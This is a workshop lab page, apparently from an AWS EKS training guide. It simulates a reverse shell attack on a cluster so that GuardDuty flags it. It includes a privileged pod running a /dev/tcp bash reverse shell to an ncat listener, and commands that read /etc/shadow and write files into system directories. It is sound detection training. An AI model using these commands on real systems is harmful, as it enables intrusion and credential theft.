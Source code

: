 ```yaml
---
title: "Reverse Shell"
sidebar_position: 142
---
```


In this last lab exercise for Amazon GuardDuty findings, you'll simulate a reverse shell attack in your EKS Cluster environment.

This one is a little tricky and since we want to run it as a simulation in a controlled environment, it will require you to create another Cloud9 environment that will serve as the offensor instance. To do that, open your [CloudShell](https://console.aws.amazon.com/cloudshell/home), and run the following command.

```bash
$ curl -fsSL https://raw.githubusercontent.com/aws-samples/eks-workshop-v2/main/lab/scripts/rshell-setup.sh | bash
```

Open another tab in your browser and go to the [Amazon Cloud9 Console](https://console.aws.amazon.com/cloud9control/home). You should se another IDE environment with the nama `rshell`, click on the **Open** link next to the IDE environment name.

On the Terminal of the new environment, you'll need to get the IP Address of the Cloud9 instance, install and run the `ncat` tool to simulate an attack tentative.

```bash
$ curl http://169.254.169.254/latest/meta-data/local-ipv4
```

Note the IP Address on the output.

```bash
$ sudo yum install ncat -y
$ ncat -nvlp 6666
Ncat: Version 6.40 ( http://nmap.org/ncat )
Ncat: Listening on :::6666
Ncat: Listening on 0.0.0.0:6666
```

This last command will start listening all connections on port 6666.

Now, go back to the `eks-workshop-ide` terminal, and run a new Pod that will emulate the compromised workload.

```bash
$ kubectl run -ti --rm --restart=Never --image=ubuntu --privileged rshell -- /bin/bash -c "bash -i >& /dev/tcp//6666 0>&1"
If you don't see a command prompt, try pressing enter.
``` 

Return to the `rshell` IDE, and you will be able to see that a new connection from offensor instance to the Pod, and you are able to run commands to the newly created Pod inside your Amazon EKS Cluster. Try a few privileged commands like below.

```bash
Ncat: Connection from 10.42.129.208.
Ncat: Connection from 10.42.129.208:39692.
$ cat /etc/shadow
$ chroot /
$ touch /etc/dangerousfile
$ mkdir /bin/dangerousfolder
$ exit
$ ls /etc/danger*
```

Notice that the terminal where you started the Pod is completely frozen, and you are not able to run commands. To end the session, hit `CTRL+C` / `CMD+C`, or type `exit` on the `rshell` IDE. The Pod on the `eks-workshop-ide` will be terminated and you will be able to take control again.

On the `rshell` Cloud9 IDE.

```bash
$ exit

```

On the `eks-workshop-ide` Cloud9 IDE, you'll see the following message `pod "rshell" deleted`.


If you open the [GuardDuty Findings console](https://console.aws.amazon.com/guardduty/home#/findings), you will see the `Execution:Runtime/ReverseShell` finding.

![](assets/reverse-shell.png)


To clean up, run the following command on your [CloudShell](https://console.aws.amazon.com/cloudshell/home).

```bash
$ curl -fsSL https://raw.githubusercontent.com/aws-samples/eks-workshop-v2/main/lab/scripts/rshell-cleanup.sh | bash
```